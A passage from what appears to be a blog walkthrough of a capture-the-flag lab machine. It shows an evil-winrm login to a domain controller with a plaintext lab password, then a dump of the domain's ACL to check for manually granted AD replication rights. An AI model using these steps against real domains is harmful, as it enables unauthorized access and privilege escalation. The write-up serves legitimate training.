 Performing an LDAP query reveals that this principal is not part of an admin group like `Domain Admins` that by default would have rights to perform AD replication. These permissions must have been manually assigned. We can do some manual enumeration to corroborate this is indeed true.

To do this manual enumeration I will first `winrm` into the domain controller with `fsmith` again.

<div class="article-code">
{% highlight sh%}
jeanp@~$ evil-winrm -i 10.10.10.175 -u fsmith -p Thestrokes23
{% endhighlight %}
</div>

Open a PowerShell session.

<div class="article-code">
{% highlight sh%}
*Evil-WinRM* PS C:\Users\FSmith\Documents> powershell
{% endhighlight %}
</div>

Import the ActiveDirectory module.

<div class="article-code">
{% highlight sh%}
*Evil-WinRM* PS C:\Users\FSmith\Documents> Import-Module ActiveDirectory
{% endhighlight %}
</div>

Execute a cmdlet to get the ACL of the domain and pipe this output to a txt file.

<div class="article-code">
{% highlight sh%}
*Evil-WinRM* PS C:\Users\FSmith\Documents> (Get-Acl "AD:DC=EGOTISTICAL-BANK,DC=LOCAL").Access | Format-List > ACL.txt
{% endhighlight %}
</div>

Download the txt file.

<div class="article-code">
{% highlight sh%}
*Evil-WinRM* PS C:\Users\FSmith\Documents> download ACL.txt
{% endhighlight %}
</div>

<div class="article-image">
  <img src="/assets/img/sauna/acls.png">
</div>
